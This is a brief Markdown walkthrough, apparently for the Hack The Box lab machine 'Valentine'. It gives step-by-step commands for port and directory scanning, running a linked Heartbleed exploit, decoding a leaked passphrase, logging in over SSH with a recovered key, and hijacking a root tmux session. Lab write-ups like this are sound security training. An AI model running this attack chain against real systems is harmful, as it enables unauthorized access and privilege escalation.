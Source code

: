 # Valentine Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -p- -sV -oA fullvalentine 10.10.10.79``

![image](https://user-images.githubusercontent.com/123066149/226275306-eb574609-4275-4964-858c-8b147bf128df.png)

``nmap --script vuln 10.10.10.79``

![image](https://user-images.githubusercontent.com/123066149/226275482-d6658d91-913a-40a9-a3d5-e6f93adc279d.png)

# ${{\color{purple}Initial Foothold}}\ $

``gobuster dir -u http://10.10.10.79/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 30``

![image](https://user-images.githubusercontent.com/123066149/226275598-b788e58a-00c1-426f-bb9b-a7efd341a082.png)

# ${{\color{purple}Exploitation}}\ $

![image](https://user-images.githubusercontent.com/123066149/226276015-3f1bd717-17c1-4b48-9002-afe56c27a67e.png)

![image](https://user-images.githubusercontent.com/123066149/226276237-43b610ce-a170-4f7e-937a-90e61116aa3a.png)

![image](https://user-images.githubusercontent.com/123066149/226276374-46434383-bf4a-4d81-887e-c98f8e5a7a6c.png)

### I used this exploit :

https://gist.github.com/eelsivart/10174134#file-heartbleed-py

``python2.7 heartbleed.py 10.10.10.79``

![image](https://user-images.githubusercontent.com/123066149/226276713-88458e71-4a8f-4033-bede-d88004275522.png)


``echo -n aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d``

![image](https://user-images.githubusercontent.com/123066149/226276792-4e7158f6-deaf-4959-9e9d-3337fcf97266.png)

``chmod 600 hype.key``

![image](https://user-images.githubusercontent.com/123066149/226277154-225a9196-5d86-4915-a3ba-87b20e1e8f17.png)

``ssh -o PubkeyAcceptedKeyTypes=+ssh-rsa -i hype.key hype@10.10.10.79``

![image](https://user-images.githubusercontent.com/123066149/226277251-a1b78f1e-9e9b-4940-bfce-778226663984.png)

# ${{\color{purple}Privilege Escalation}}\ $

``cat .bash_history``

![image](https://user-images.githubusercontent.com/123066149/226277399-e78d8cd9-bd24-480a-b3b9-2a4d0552002f.png)

``ps aux | grep -i tmux``

![image](https://user-images.githubusercontent.com/123066149/226277499-1ee81bd5-02f0-4be1-a646-f64cb3f179e9.png)

``ls -la /.devs/dev_sess``

![image](https://user-images.githubusercontent.com/123066149/226277620-9b7a96b0-d6f9-4bbe-82d0-9bd2c6a8bbc8.png)

``export TERM=xterm``
``tmux -S /.devs/dev_sess``

![image](https://user-images.githubusercontent.com/123066149/226277753-c73f7e1c-47b8-4385-a90c-3e6efd09b428.png)


# ${{\color{purple}Points of Improvement}}\ $
